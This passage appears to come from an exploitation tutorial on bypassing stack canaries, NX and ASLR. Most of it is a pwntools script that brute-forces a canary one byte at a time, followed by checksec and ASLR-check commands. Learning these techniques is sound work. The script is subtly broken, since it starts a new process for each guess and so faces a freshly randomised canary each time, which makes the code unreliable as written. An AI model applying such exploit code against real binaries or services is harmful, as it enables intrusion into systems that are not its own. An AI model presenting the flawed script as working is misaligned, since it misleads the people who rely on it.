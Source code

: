 **Bypass techniques:**

1. **Information leak:** Leak canary value before overwriting
2. **Brute-force:** Single-byte brute-force on 64-bit (256 attempts)
3. **Fork without re-randomization:** Some daemons don't regenerate canary

**Brute-force example:**

```python
from pwn import *

canary = b''

# Brute-force one byte at a time
for i in range(8):
    for byte_val in range(256):
        p = process('./vulnerable_binary')

        payload = b"A" * offset
        payload += canary + bytes([byte_val])

        p.sendline(payload)
        response = p.recvall()

        if b"stack smashing detected" not in response:
            canary += bytes([byte_val])
            log.info(f"Canary byte {i}: {hex(byte_val)}")
            break

        p.close()

log.success(f"Full canary: {canary.hex()}")
```

### DEP/NX (Data Execution Prevention)

**Detection:**

```bash
checksec --file=./binary
# Output:
# NX: NX enabled
```

**Bypass:** Use ROP (Return-Oriented Programming) - execute existing code instead of injecting shellcode.

### ASLR (Address Space Layout Randomization)

**Check if enabled:**

```bash
# Linux
cat /proc/sys/kernel/randomize_va_space
# 0 = Disabled
# 1 = Partial (stack/heap/libraries)
# 2 = Full (includes PIE)
```
